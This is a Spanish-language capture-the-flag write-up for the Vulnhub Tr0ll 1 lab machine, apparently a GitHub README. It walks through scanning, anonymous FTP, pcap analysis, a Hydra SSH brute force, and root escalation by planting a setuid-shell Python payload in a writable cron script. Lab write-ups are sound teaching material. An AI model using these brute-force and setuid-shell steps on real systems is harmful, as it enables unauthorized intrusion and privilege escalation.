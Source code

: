 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=220&height=80&lines=TR0LL_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tr0ll-1,100/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/176079905-f35a37e9-416f-45a8-8f7e-3c49899c7252.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/176080128-62ec0641-3cfa-479f-8d07-737fc130d1aa.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/176081118-60dbaddd-22c5-48c2-9232-a18565c084e1.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio de sesión anónimo.

O.S: **Linux**

URL: `http://192.168.1.4`

![4](https://user-images.githubusercontent.com/75953873/176081949-b1bb16cd-4a6f-4c5a-9abf-136aa5cc5c53.png)

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.4
```
Usuario: `anonymous`

Contraseña: `anonymous`

Copiar el archivo `lol.pcap` hacia el directorio local:
```
get lol.pcap
```
![5](https://user-images.githubusercontent.com/75953873/176082571-6e2485ce-3890-4e4e-a022-40aeebc2310c.png)

- *Paso 5* Examinar captura de paquetes con Wireshark. 
```
wireshark lol.pcap
```
![6](https://user-images.githubusercontent.com/75953873/176084226-03fe75a3-9b3a-459a-96e7-c70f8112f8cc.png)

Aplicar filtro: `(ip.addr eq 10.0.0.6 and ip.addr eq 10.0.0.12) and (tcp.port eq 20 and tcp.port eq 51884)`

Directorio secreto: `sup3rs3cr3tdirlol`

URL completa: `http://192.168.1.4/sup3rs3cr3tdirlol`

![7](https://user-images.githubusercontent.com/75953873/176085343-f3ea1169-da6f-4107-b70e-bf9e439c2010.png)

Descargar archivo: 
```
wget http://192.168.1.4/sup3rs3cr3tdirlol/roflmao
```

Explorar el archivo con Strings:
```
string roflmao
```
![8](https://user-images.githubusercontent.com/75953873/176085855-ffc26116-24d7-4c34-87d4-578fa54dddbb.png)

Directorio secreto: `0x0856BF`

URL completa: `http://192.168.1.4/0x0856BF`

![9](https://user-images.githubusercontent.com/75953873/176086028-06516837-d580-49de-8f15-c045b71909ff.png)

El directorio `good_luck` contiene un fichero txt con una lista de nombres para realizar un ataque de fuerza bruta y conectarse al servicio **SSH**. 

URL completa: `http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt`
```
wget http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt && cat which_one_lol.txt
```
![10](https://user-images.githubusercontent.com/75953873/176086596-77994340-98ef-4c9c-8231-5963d17a4c17.png)

- *Paso 6* Ataque de fuerza bruta al servicio SSH con Hydra. 
```
hydra -L which_one_lol.txt -P rockyou.txt 192.168.1.4 ssh
```
![11](https://user-images.githubusercontent.com/75953873/176089030-02ebf4c5-56d9-4a11-89a1-34ab99c0e119.png)

Usuario: `overflow`

Contraseña: `Pass.txt`

Iniciar sesión al servicio SSH:
```
ssh overflow@192.168.1.4
```

- *Paso 7* Filtrar todos los directorios y escalar privilegios root. 
```
find / -writable 2<dev/null
```
![12](https://user-images.githubusercontent.com/75953873/176089628-cc8a60fd-7cd4-4e17-b2bc-1979707d85af.png)

Directorio objetivo: `/lib/log`

Con el editor de Nano hay que remplazar la línea de `rm -r /tmp/` por las siguientes:
```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/sh ')
        os.system('chmod u+s /tmp/sh')
except:
        sys.exit()

```
![13](https://user-images.githubusercontent.com/75953873/176090801-543a7e6b-0386-466c-99f3-49bbf8daa1f0.png)

Finalmente ejecutamos `./sh` dentro del directorio `/tmp` y capturamos la flag del directorio `/root`.
```
cd /tmp
./sh
cd /root
cat proof.txt
```
![14](https://user-images.githubusercontent.com/75953873/176091178-9dad75b7-dfc4-484f-88ef-10ae3201ff8f.png)

**FLAG:** 702a8c18d29c6f3ca0d99ef5712bfbdc
